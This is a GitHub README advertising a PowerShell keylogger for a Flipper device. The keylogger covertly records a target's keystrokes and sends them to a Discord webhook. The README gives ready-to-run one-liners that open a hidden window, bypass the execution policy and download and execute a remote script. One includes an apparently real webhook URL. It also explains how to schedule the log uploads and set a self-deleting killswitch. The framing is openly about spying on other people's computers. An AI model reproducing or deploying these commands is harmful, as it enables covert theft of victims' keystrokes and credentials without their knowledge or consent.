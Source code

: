 
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Keylogger 

This is a Powershell based keylogger that exfiltrates the logs to discord

## Description

Quickly with just ONE line of code you can deploy a keylogger on your targets computer 

Complete with custom logging times, and self destruct feature

Just move the `keylogger.txt` file over to your flipper and you are good to go

## Getting Started

### Dependencies

* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* 15 seconds later you have their keystrokes being sent to you

This is the basic command to install the keylogger and provide the webhook for the keystrokes to be sent back to you

* `$dc=''` is the variable where you plug in your discord webhook 

```
powershell -w h -NoP -Ep Bypass $dc='https://discord.com/api/webhooks/1092997498089521183/ZzWeOZRzAfNWtqXfzLDv47DMWokwf-yMbhL-px977t0sqqTGDuT9YmI27cIKRrxF9Tza';iwr "https://jakoby.lol/m2m" | iex
```
### ADDITIONAL PARAMETERS

The payload is set to send the logs collected every hour on the hour

* You maybe use the `$log` variable to specify a certain time instead (Use this for testing)
* ex: `$log="09:00 pm"`  <-- This will send the log every night at 9pm

You also have the option of setting up a killswitch to have the keylogger self delete at a certain time and date 

`$ks="12/25/2022 10:00:00 PM"`  <-- This will make the keylogger self delete at 10pm on December 25th

Calling the script with both a `log` time and `killswitch` will look something like this: 
 
```
powershell -w h -NoP -Ep Bypass -command "$dc='https://link.iamjakoby.com/xxxx';$log='09:00 pm';$ks='12/25/2022 10:00:00 PM';iwr 'https://jakoby.lol/m2m' | iex"
```
### DELETING THE KEYLOGGER

Just hold `Left Control` + `Right Control` for 5 seconds untill the notification box pops up

<img src= https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/Assets/keylogger/kkl.png width="400" alt="C#" />



<p align="right">(<a href="#top">back to top</a>)</p>

